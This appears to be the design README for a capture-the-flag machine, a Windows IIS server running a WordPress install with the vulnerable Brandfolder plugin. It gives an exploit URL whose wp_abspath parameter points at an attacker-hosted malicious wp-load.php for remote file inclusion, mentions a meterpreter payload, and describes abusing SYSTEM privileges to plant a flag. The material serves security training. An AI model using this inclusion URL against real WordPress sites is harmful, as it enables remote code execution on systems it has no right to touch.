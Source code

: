 # Record

Record is a Windows Server 2019 with IIS installed hosting a vulnerable Wordpress installation.

## Initial exploitation

The Wordpress instance has a vulnerable plugin, Brandfolder, installed in it. This plugin is vulnerable to local file inclusion. However, php.ini is configured to allow files to be included via HTTP or FTP. This means that this vulnerability can be used for remote file inclusion.

This can be exploited using this URL: `http://[ip]/wordpress/wp-content/plugins/brandfolder/callback.php?wp_abspath=http://[attacker_ip]/evil/`. The attacker IP must have a malicious PHP script called "wp-load.php" in their web root folder.

## Flag overwrite

IIS has been modified to run its application pools as SYSTEM. This is unrealistic but results in an interesting view if run with msfvenom's PHP meterpreter utility, as the user will be able to execute commands and ls directories, but not actually able to see what's in these directories. This is why the hello world blog post contains a hint for attackers to look for C:\Share (the slash ended up getting pulled out by the SQL dump, but the idea is conveyed fine). Since the attacker is running as SYSTEM, they are able to write to C:\Share\ownership.txt, allowing them to plant their flag.
